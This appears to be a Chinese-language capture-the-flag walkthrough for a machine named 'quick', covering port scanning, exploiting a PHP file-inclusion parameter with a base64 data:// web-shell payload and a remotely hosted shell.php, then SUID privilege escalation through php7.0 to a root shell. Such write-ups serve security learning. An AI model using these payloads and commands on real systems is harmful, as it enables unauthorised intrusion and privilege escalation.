








## quick

使用`fscan`扫描发现开启了`80`端口，访问页面


点击下面的`Home`、`Cars`等会出现参数`?page=xxxx`，猜测有文件包含，但是使用`php`伪协议没有包含成功，尝试远程包含，本机开启服务器

```bash
echo "test" > 1.php
python -m http.server 8089
```



发现成功访问了我的`http`服务器上的`1.php`

### 漏洞利用

#### data://伪协议

可以直接传数据，不用包含远程服务器上的文件

`<?php system($_POST[1]);?>`

```
=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfUE9TVFsxXSk7Pz4=
```



#### 远程文件包含法

在攻击机启动一个`http`服务器

```
python -m http.server 8089
```

服务器上写一个`shell.php`

```php
<?php
system($_POST[1]);
?>
```

因为这里代码应该是`$filename . ".php"`的类型，要过滤后面的`.php`可以在后面使用`?`和`#`



使用配置



### 提权

尝试`suid`提权

```bash
find / -perm -4000 -type f 2>/dev/null
```

发现`php7.0`具有`suid`权限,但是在蚁剑终端里面不能提权，反弹`shell`出来



然后使用命令

```
cd /usr/bin
CMD="/bin/sh"
./php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"
```



